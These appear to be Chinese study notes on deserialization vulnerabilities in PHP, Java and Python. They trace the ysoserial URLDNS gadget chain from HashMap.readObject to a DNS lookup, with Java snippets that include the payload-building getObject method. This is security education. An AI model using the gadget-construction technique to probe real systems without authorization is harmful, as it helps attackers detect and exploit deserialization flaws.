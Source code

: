 ## [Java安全漫谈 - 07.不同语言中的反序列化漏洞](https://t.zsxq.com/NF2NfQf)

### 何为序列化和反序列化

序列化: 在网络上传输的数据按照特定的格式转换为二进制数据

反序列化: 将二进制数据转换回来



`反序列化漏洞`是对一类漏洞的泛指，而不是专指某种反序
列化方法导致的漏洞，比如`Jackson反序列化漏洞`和`Java readObject`造成的反序列化漏洞就是完全不同的两种漏洞。

---

### Java序列化更深入的原因

 `writeObject `允许开发者在序列化流中插入一些自定义数据，进而在反序列化的时候能够使用` readObject `进行读取。

### PHP,JAVA,Python反序列化的区别

**1. PHP**

PHP的序列化是开发者不能参与的，开发者调用 serialize 函数后，序列化的数据就已经完成了，你得到的是一个完整的对象，你并不能在序列化数据流里新增某一个内容，你如果想插入新的内容，只有将其保存在一个属性中。也就是说PHP的序列化、反序列化是一个纯内部的过程，而其 `__sleep` 、`__wakeup`魔术方法的目的就是在序列化、反序列化的前后执行一些操作。



**2.Java**

Java在序列化时一个对象，将会调用这个对象中的 `writeObject `方法，参数类型是
`ObjectOutputStream `，开发者可以将任何内容写入这个stream中；反序列化时，会调用`readObject `，开发者也可以从中读取出前面写入的内容，并进行处理。

`writeObject`方法会先调用`ObjectOutputStream`中的`defaultWriteObject()`方法，该方法会执行默认的序列化机制。然后才是`writeObject`

代码:

```md
private void writeObject(java.io.ObjectOutputStream s) throws
IOException {
    s.defaultWriteObject();
    s.writeObject("This is a object");
 }
```

使用工具解析序列化数据 https://github.com/NickstaDB/SerializationDumper

会发现我们写入的字符串 `This is a object` 被放在 `objectAnnotation` 的位置

**3.Python(危害最高)**

Python的反序列化过程实际上是在执行一个基于栈的虚拟机。我们可以向栈上增、删对象，也可以执行一些指令，比如函数的执行等，甚至可以用这个虚拟机执行一个完整的应用程序。

---

## URLDNS

**注意:**

**1.此处需要实操,跟着别人做一遍**

**2.ysoserial 所使用的java版本为1.8**



**搭环境**

[java 使用 idea 调试 ysoserial](https://www.dandelioncloud.cn/article/details/1432735494202564610)

**边看边实操**

[JAVA反序列化浅析以及URLDNS分析](http://myblog.ac.cn/archives/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B5%85%E6%9E%90%E4%BB%A5%E5%8F%8Aurldns%E5%88%86%E6%9E%90)

[JAVA安全-06反序列化篇(2)-URLDNS](https://www.cnblogs.com/-meditation-/articles/16270796.html)

[Java安全漫谈 - 08.认识最简单的Gadget——URLDNS](https://t.zsxq.com/ieMZBQj)

[Java反序列化之URLDNS](https://github.com/Y4tacker/JavaSec/blob/main/%E5%85%B6%E4%BB%96/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BURLDNS/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BURLDNS.md)



### 名词解释:

**Gadget**: 链子,指的是 从触发位置开始到执行命令的位置结束

**CC**:  `CommonsCollections`, Java中应用广泛的一个库

**ysoserial**: CC链利用的一个著名工具



### [URLDNS源码](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)——选自ysoserial

**试着阅读英文，机翻可能更看不懂，不会的单词就查**

---



### **流程剖析:**

**(要看具体代码,这里只是把代码提取出来而已,为了让大家自觉实操遂不贴图.)**



**链子:(左边为层数,右边为函数)**

```
1     HashMap.readObject()
2       HashMap.putVal(HashMap.hash(),x,x,x,x)   
3           URL.hashCode()
4			URLStreamHandler.hashCode()
5				URLStreamHandler.getHostAddress()
6					InetAddress.getByName(host)

```



触发反序列列化的方法是 `readObject` ，因为Java开发者（包括Java内置库的开发者）经
常会在这⾥⾯写自己的逻辑，所以导致可以构造利用链。

1. 查看第一层`HashMap.readObject()`方法，发现第二层`HashMap.putVal() ` 中的 `HashMap.hash() `方法

   

2. `HashMap.hash() `方法中有写 `key.hashCode()`，即第3层

   ```java
   static final int hash(Object key) {
           int h;
           return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
       }
   ```

​		所以此时定位到`key`是什么东西：回到 第一层即 `HashMap.readObject()`方法中的 `HashMap.putVal(HashMap.hash(),x,x,x,x) `所在代码片段:

```java
for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

​	可以看到我们要找的`key` 取决于 `s.readObject()` ,那我们控制了 `s` 不可以了吗

​	`s`正好是 第一层 `HashMap.readObject(ObjectInputStream s)`方法中的参数

​	那我们怎么传入`s`,可以看到`s`被拆为了两个，分别是`(K)` 和`(V)`,他们分别被赋值给了`Key`和`Value`(即键值对)

所以思路出来了，使用`HashMap`的某个方法传入`Key`和`Value`不就大功告成了,这个方法是`HashMap.put()`



3. `HashMap.put()`方法存在于`URLDNS.getObejct`

`URLDNS.getObejct`：

```java
public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); 
                URL u = new URL(null, url, handler); 
                ht.put(u, url); 

                Reflections.setFieldValue(u, "hashCode", -1); 

                return ht;
        }
```

`HashMap.put()` ： 

```java
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

参见**{2.}**可以知道 要使用`key.hashCode()`方法

因为这个`key` 是`URL`类，所以查看`URL`类的`hashCode()`方法,即第三层`URL.hashCode()`

第三层`URL.hashCode()`：

```java
public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

注意这里的`hashCode ! = -1`才能让链子往下走,所以 `URLDNS.getObejct`中:通过反射设置hashCode的值= -1：`Reflections.setFieldValue(u, "hashCode", -1); `

4.第四，五，六层一步一步跟进即可,最后是通过`InetAddress.getByName(host)`发起DNS查询



**P牛原话:**

```md
要构造这个Gadget，只需要初始化⼀个 java.net.URL 对象，作为 key 放在 java.util.HashMap
中；然后，设置这个 URL 对象的 hashCode 为初始值 -1 ，这样反序列列化时将会重新计算
其 hashCode ，才能触发到后面的DNS请求，否则不会调用 URL->hashCode() 。
另外，ysoserial为了了防止在⽣生成Payload的时候也执行了URL请求和DNS查询，所以重写了一
个 SilentURLStreamHandler 类，这不不是必须的。
```

